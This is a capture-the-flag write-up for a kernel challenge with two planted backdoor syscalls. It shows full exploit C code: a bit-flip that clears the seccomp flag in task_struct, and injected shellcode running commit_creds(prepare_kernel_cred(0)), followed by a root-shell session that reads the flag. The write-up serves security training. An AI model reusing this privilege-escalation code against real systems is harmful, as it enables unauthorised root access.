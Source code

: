 # sockcamp

Somebody added a suspicious syscall to my kernel...
No problem! I blocked it with seccomp and now nobody can use it ;)

```
nc 35.224.135.84 1003
```

Note: You can use the attached SDK to compile your exploit

Attachments:
- `sockcamp.zip`
- `x86_64-buildroot-linux-uclibc_sdk-buildroot.tar.gz`

## Overview

We have two custom syscalls defined.

```c
#include <linux/kernel.h>
#include <linux/syscalls.h>

#define __NR_FLIP 555
#define __NR_INJECT 556

unsigned long flips = 0;

SYSCALL_DEFINE2(flip, unsigned long, offset, unsigned char, bit)
{
	if (flips > 0 || offset >= sizeof(struct task_struct) || bit >= 8) {
		printk(KERN_ALERT "[backdoor] No\n");
		return -EPERM;
	}

	((unsigned char *)current)[offset] ^= (1 << (bit));
	flips++;

	return 0;
}

typedef void func(void);

SYSCALL_DEFINE2(inject, void *, addr, unsigned long, len)
{
	void *buf;
	buf = __vmalloc(128, GFP_KERNEL, PAGE_KERNEL_EXEC);
	if (len < 128) {
		if (copy_from_user(buf, addr, len) == 0) {
			printk(KERN_INFO
			       "[backdoor] Copied %lu bytes from userland\n",
			       len);
		}
		((func *)buf)();
	}

	return 0;
}
```

Unfortunately the `inject` syscall is blocked by seccomp.

## Solution

### Step 1

Disable seccomp with a single bit-flip in the current `task_struct` using syscall 555:

```c
current->thread_info.flags &= ~_TIF_SECCOMP;
```

Explanation: https://youtu.be/mKzUA3j6myg

### Step 2

Execute `commit_creds(prepare_kernel_cred(0))` using syscall 556 to escalate
  privileges. KASLR is disabled so the addresses are fixed. See `inject.py` to
  see how to assemble the code.

---

Final exploit in `solve.c`:
```c
int main() {
    int r;

    printf("[solve] Escaping seccomp");
    unsigned long offset = 1;
    unsigned long bit = 0;
    r = syscall(555, offset, bit);
    assert(r == 0);

    printf("[solve] UID before escalating privs: %d\n", getuid());

    char escalate_privs[31] = {0x48, 0x31, 0xff, 0x48, 0xb9, 0xc0, 0x81, 0x08,
                               0x81, 0xff, 0xff, 0xff, 0xff, 0xff, 0xd1, 0x48,
                               0x89, 0xc7, 0x48, 0xb9, 0x80, 0x7e, 0x08, 0x81,
                               0xff, 0xff, 0xff, 0xff, 0xff, 0xd1, 0xc3};

    r = syscall(556, escalate_privs, 31);
    printf("[solve] syscall(556) = %d\n", r);
    assert(r == 0);

    printf("[solve] UID after escalating privs: %d\n", getuid());
    assert(getuid() == 0);

    // This child process should still be seccomped, but it doesn't matter
    execlp("/bin/sh", "/bin/sh", NULL);

    return 0;
}
```

Output:

```
$ python3 client.py HOST=35.224.135.84 PORT=1003 EXPLOIT=solve
[x] Opening connection to 35.224.135.84 on port 1003
[x] Opening connection to 35.224.135.84 on port 1003: Trying 35.224.135.84
[+] Opening connection to 35.224.135.84 on port 1003: Done
[*] Solving PoW ...
[DEBUG] Received 0x34 bytes:
    b'Send the output of: hashcash -mb26 gsji19cJeCDSmj8N\n'
[+] Solved PoW
[DEBUG] Sent 0x35 bytes:
    b'1:26:210613:gsji19cjecdsmj8n::kjm3fW3I7ePrO41C:4GYop\n'
rt
...
$ chmod +x solve
$ ./solve
./solve
[solve] Sanity check: syscall 556 should be blocked[solve] syscall(556) = -1
[solve] Escaping seccomp[solve] syscall(555) = 0
[solve] UID before escalating privs: 1000
[   22.705578] [backdoor] Copied 31 bytes from userland
[solve] syscall(556) = 0
[solve] UID after escalating privs: 0
/bin/sh: can't access tty; job control turned off
$ id
id
uid=0(root) gid=0(root)
$ cat /flag
cat /flag
CCC{n0t_r3ally_4_r0wh4mm3r_ch3ll3ng3}
```
